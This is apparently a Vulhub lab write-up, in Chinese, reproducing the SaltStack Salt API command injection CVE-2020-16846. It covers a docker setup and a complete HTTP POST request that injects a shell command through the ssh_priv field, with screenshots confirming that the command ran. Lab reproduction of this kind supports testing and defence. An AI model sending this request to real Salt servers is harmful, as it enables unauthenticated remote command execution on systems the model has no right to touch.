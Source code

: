 # SaltStack 命令注入漏洞 CVE-2020-16846

## 漏洞描述

SaltStack 是基于 Python 开发的一套C/S架构配置管理工具。2020年11月SaltStack官方披露了CVE-2020-16846和CVE-2020-25592两个漏洞，其中CVE-2020-25592允许任意用户调用SSH模块，CVE-2020-16846允许用户执行任意命令。组合这两个漏洞，将可以使未授权的攻击者通过Salt API执行任意命令。

参考链接：

- https://mp.weixin.qq.com/s/R8qw_lWizGyeJS0jOcYXag

## 环境搭建

Vulhub执行如下命令启动一个SaltStack Master服务：

```
docker-compose up -d
```

环境启动后，将会在本地监听如下端口：

- 4505/4506 这是SaltStack Master与minions通信的端口
- 8000 这是Salt的API端口，**需要通过https访问**
- 2222 这是容器内部的SSH服务器监听的端口

## 漏洞复现

向`https://your-ip:8000/run`发送如下数据包：

```
POST /run HTTP/1.1
Host: 127.0.0.1:8000
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: application/x-yaml
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 87

token=12312&client=ssh&tgt=*&fun=a&roster=whip1ash&ssh_priv=aaa|touch%20/tmp/awesome_poc%3b
```

![image-20220228201318654](images/202202282013907.png)

通过`ssh_priv`位置注入命令`touch /tmp/awesome_poc`，进入容器可见已执行成功：

![image-20220228201334846](images/202202282013086.png)


